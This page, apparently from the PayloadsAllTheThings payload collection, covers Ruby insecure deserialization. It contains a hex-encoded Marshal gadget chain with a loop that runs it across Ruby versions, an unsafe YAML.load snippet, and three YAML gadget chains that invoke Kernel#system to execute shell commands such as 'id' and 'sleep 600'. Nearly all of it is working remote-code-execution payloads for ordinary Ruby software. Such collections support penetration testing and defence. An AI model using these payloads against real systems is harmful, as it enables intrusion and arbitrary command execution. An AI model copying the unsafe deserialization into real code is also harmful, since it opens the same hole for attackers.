

repository: swisskyrepo/PayloadsAllTheThings · page: Insecure Deserialization/Ruby/index.html · generator: mkdocs

# Ruby Deserialization

> Ruby deserialization is the process of converting serialized data back into Ruby objects, often using formats like YAML, Marshal, or JSON. Ruby's Marshal module, for instance, is commonly used for this, as it can serialize and deserialize complex Ruby objects.

## Summary

* [Marshal Deserialization](#marshal-deserialization)
* [YAML Deserialization](#yaml-deserialization)
* [References](#references)

## Marshal Deserialization

Script to generate and verify the deserialization gadget chain against Ruby 2.0 through to 2.5

```ruby
for i in {0..5}; do docker run -it ruby:2.${i} ruby -e 'Marshal.load(["0408553a1547656d3a3a526571756972656d656e745b066f3a1847656d3a3a446570656e64656e63794c697374073a0b4073706563735b076f3a1e47656d3a3a536f757263653a3a537065636966696346696c65063a0a40737065636f3a1b47656d3a3a5374756253706563696669636174696f6e083a11406c6f616465645f66726f6d49220d7c696420313e2632063a0645543a0a4064617461303b09306f3b08003a1140646576656c6f706d656e7446"].pack("H*")) rescue nil'; done
```

## YAML Deserialization

Vulnerable code

```ruby
require "yaml"
YAML.load(File.read("p.yml"))
```

Universal gadget for ruby <= 2.7.2:

```yaml
--- !ruby/object:Gem::Requirement
requirements:
  !ruby/object:Gem::DependencyList
  specs:
  - !ruby/object:Gem::Source::SpecificFile
    spec: &1 !ruby/object:Gem::StubSpecification
      loaded_from: "|id 1>&2"
  - !ruby/object:Gem::Source::SpecificFile
      spec:
```

Universal gadget for ruby 2.x - 3.x.

```yaml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

```yaml
 ---
 - !ruby/object:Gem::Installer
     i: x
 - !ruby/object:Gem::SpecFetcher
     i: y
 - !ruby/object:Gem::Requirement
   requirements:
     !ruby/object:Gem::Package::TarReader
     io: &1 !ruby/object:Net::BufferedIO
       io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
       debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
              sets: !ruby/object:Net::WriteAdapter
                  socket: !ruby/module 'Kernel'
                  method_id: :system
              git_set: sleep 600
          method_id: :resolve 
```
